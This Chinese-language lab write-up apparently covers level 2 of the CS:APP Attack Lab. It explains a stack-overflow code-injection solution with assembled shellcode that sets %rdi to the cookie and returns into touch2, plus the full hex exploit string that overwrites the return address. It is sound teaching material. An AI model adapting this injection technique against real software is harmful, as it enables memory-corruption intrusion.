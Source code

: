 ```bash
 4017bf:       90                      nop
```

##### level2
- touch2函数如下：需要在调用getbuf后跳转到touch2函数中，同时给touch2函数传递正确的cookie参数。
	- x86中用%rdi来传递第一个参数。
	- 不要试图在利用漏洞的代码中使用jmp或call指令。目的地编码这些指令的地址很难制定。对的所有传输使用ret指令控制。
```c
void touch2(unsigned val)
{
	vlevel = 2;/* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```
- 使用GCC作为汇编程序，使用OBJDUMP来反汇编程序，可以方便地生成字节码。示例程序example.s：
```bash
pushq $0xabcdef # Push value onto stack
addq $17,%rax # Add 17 to %rax
movl %eax,%edx # Copy lower 32 bits to %edx
```
- 汇编再反汇编
```bash
gcc -c example.s
objdump -d example.o > example.d
```
- 结果：
```bash
example.o:     file format elf64-x86-64  

Disassembly of section .text:  
  
0000000000000000 <.text>:  
  0:   68 ef cd ab 00          pushq  $0xabcdef  
  5:   48 83 c0 11             add    $0x11,%rax  
  9:   89 c2                   mov    %eax,%edx
```
- 提取出其中的字节序列可以传递给hex2raw
```bash
68 ef cd ab 00 48 83 c0 11 89 c2
```
解答：
- 通过gdb看到`p/x $rsp`查看getbuf函数中栈顶地址为0x5561dc78，该起始位置向上的40个字节为分配给buf数组的空间，可以在该位置放入要注入攻击的代码，然后如level1一样在ret处返回到该位置，即可攻击成功。也就是说利用buf数组，可以存放40个字节的攻击代码。
- 攻击代码如下：只需要将该段代码放入buf中，让ret返回到rsp所指的buf地址即可。(手写汇编再objdump -d获取字节码)
```bash
0000000000000000 <.text>:  
  0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi  # 直接将cookie放入%rdi中
  7:   68 ec 17 40 00          pushq  $0x4017ec  
  c:   c3                      retq
```
- p1-level2.txt可以如下：
```bash
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00  
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00  
78 dc 61 55 # 用栈溢出使ret返回我们想要取得地址
```
- 结果：`cat p1-level2.txt | ./hex2raw | ./ctarget -q`：
```bash
Cookie: 0x59b997fa  
```